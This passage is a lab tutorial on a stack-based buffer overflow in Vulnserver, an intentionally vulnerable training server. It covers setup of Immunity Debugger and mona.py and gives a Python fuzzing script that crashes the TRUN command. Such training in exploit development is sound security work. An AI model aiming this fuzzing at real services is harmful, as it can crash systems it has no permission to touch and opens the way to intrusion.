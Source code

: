 ```yaml
---
title: "Vulnserver - Stack Based Buffer Overflow"
date: 2020-01-19 
header:  
excerpt: "Vulnserver - Stack Based Buffer Overflow"
---
```


##  Intro

Vulnserver is an intentionally vulnerable software that can be found from [thegreycorner's blog](http://www.thegreycorner.com/p/vulnserver.html) or alternatively on their [GitHub](https://github.com/stephenbradshaw/vulnserver).

The software has multiple different Buffer Overflow vulnerabilities of which the Stack Based Buffer Overflow using the TRUN command is the simplest.

To practice exploiting the software we need the following
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Kali](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)
* [Mona.py](https://github.com/corelan/mona)
* Vulnserver
* Windows 10 (**32-Bit**)

## Setup

I will be using [VMware Workstation pro](https://my.vmware.com/en/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0), you could alternatively use [VirtualBox](https://www.virtualbox.org/wiki/Downloads) which is free. Select the version  based on your operating system e.g. Windows.
After downloading the preferred Virtualization platform we need to create the two Virtual Machines Windows & Kali.

After creating the VMs, start up Windows VM and download vulnserver, immunity debugger & mona.

### Setting up Immunity Debugger

Download [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py), before you can download the site asks you to
fill the form, you can put random information in the fields.

![immu1](/images/vulnserver/stack/immu1.PNG)

Install Immunity Debugger and when the installer asks to install python 2.7.1 allow the installation.
After the installation is complete download [mona](https://github.com/corelan/mona) and copy the mona.py over to the
Pycommands folder inside Immunity Debugger. In this case **C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands**

![mona1](/images/vulnserver/stack/mona1.PNG)

You can now open Immunity Debugger by right clicking the shortcut and "run as administrator"

![immu2](/images/vulnserver/stack/immu2.PNG)

### Setting up Vulnserver

Download the Vulnserver software and extract it somewhere where it is easy to access such as the Desktop.

![vuln1](/images/vulnserver/stack/vuln1.PNG)

In the vulnserver folder there a few files, start the vulnserver.exe by right clicking it and "run as administrator"

![vuln2](/images/vulnserver/stack/vuln2.PNG)

You now have vulnserver up and running

![vuln3](/images/vulnserver/stack/vuln3.PNG)


## Exploiting TRUN Command

Now that we have basic setup done, we can start exploiting vulnserver via the TRUN command. First we can connect  to the
server using netcat, by default vulnserver listens on port 9999. Connect with **nc -v Windows VM IP 9999**, we can also list
the commands by issuing the command **HELP** after connecting.

![exp1](/images/vulnserver/stack/exp1.PNG)

First we create a fuzzing script with python that we can use to crash vulnserver. An example code could be something like

```python
#!/usr/bin/python
import sys, socket
from time import sleep

host = "192.168.209.133"
port = 9999

buffer = "A" * 100

while True:
         try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((host,port))
                s.send(('TRUN /.:/' + buffer))
                s.close()
                sleep(1)
                buffer = buffer + "A" * 100

         except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```

After running the python code, we can check Immunity Debugger and in a few moments we can see that the progmra has crashed with
access violation which is good (note since I'm using Windows 10 older versions may act differently).

![exp2](/images/vulnserver/stack/exp2.PNG)